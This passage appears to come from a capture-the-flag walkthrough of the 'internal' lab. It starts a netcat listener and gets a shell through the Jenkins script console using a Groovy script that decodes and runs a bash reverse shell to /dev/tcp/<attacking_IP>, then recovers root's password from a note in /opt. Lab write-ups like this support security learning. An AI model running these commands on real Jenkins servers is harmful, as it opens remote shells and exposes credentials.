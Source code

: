 We first start our netcat listener on the port we will use in the rever shell script.
```bash
┌──(prorat㉿prosec)-[~/hacks/thm/internal]
└─$ nc -nlvp 1234                                                                              
listening on [any] 1234 ...

```
Then head to script console in our jenkins service and paste this script. 
>NOTE: You will need to put your IP and port in this one line bash reverse shell command `bash -c 'bash -i >& /dev/tcp/<attacking_IP>/port 0>&1'` and base64 encode it, then paste it in the `<base64_encoded_revshell>`.
{: .prompt-info }
```java
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,<base64_encoded_revshell>}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
![image](/assets/img/Posts/internal/jenkins-rev.png)

Then run the script and bingo we got a shell on the jenkins server, based on the user privilege escalation, we found a file that contained user password in the opt directory, How about now? We can check on the `/opt` directory and yes!! we have a `note.txt` file.
![image](/assets/img/Posts/internal/jenkins-opt.png)

Opening it, we get root's password.

![image](/assets/img/Posts/internal/root-pass.png)

